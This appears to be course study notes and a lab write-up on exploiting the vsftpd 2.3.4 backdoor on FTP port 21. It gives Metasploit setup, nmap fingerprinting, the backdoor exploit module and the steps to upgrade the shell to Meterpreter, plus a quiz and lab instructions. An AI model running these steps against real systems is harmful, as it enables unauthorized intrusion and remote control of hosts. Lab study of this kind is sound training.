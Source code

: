 
- Port 21
- File Transfer Protocol
- File transfers between nodes
- vsftpd - Type of FTP server run on Linux Systems
- vsftpd V2.3.4 has a command execution vuln


Setup msfconsole
```
service postgresql start
msfconsole
workspace -a vsftpd 
setg RHOSTS <target_ip>
```

Scan and enumerate target ip address
```
db_nmap -sS -sV -O <target_ip>
```

Search for exploit
```
search vsftpd 
```

Setup exploit
```
use exploit/unix/ftp/vsftpd_234_backdoor 
options
exploit
```

Upgrade to meterpreter session
```
use post/multi/manage/shell_to_meterpreter
options
set LHOST <local_ip>
set LPORT <local_port>
set SESSSION <session_id>
exploit
```

Confirm sessions are open
```
sessions 
sessions <session_id>
```
## Quiz

What version of VSFTPD is vulnerable to backdoor command execution?

	V2.3.4
## Lab

The target server as described below is running a vulnerable FTP server. Your task is to fingerprint the application using command line tools available on the Kali terminal and then exploit the application using the appropriate Metasploit module. Get a Meterpreter shell on the target!

Instructions: 

- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a root terminal of a Kali instance
- Your Kali has an interface with IP address 192.X.Y.Z. Run "ip addr" to know the values of X and Y.
- The target server should be located at the IP address 192.X.Y.3.
- Do not attack the gateway located at IP address 192.X.Y.1
- postgresql is not running by default so Metasploit may give you an error about this when starting


```
192.112.130.3
```

```
db_nmap -sS -sV -O 192.112.130.3

21/tcp open  ftp     vsftpd 2.3.4
```

```
nmap -sS -sV -sC demo.ine.local

21/tcp open  ftp     vsftpd 2.3.4
```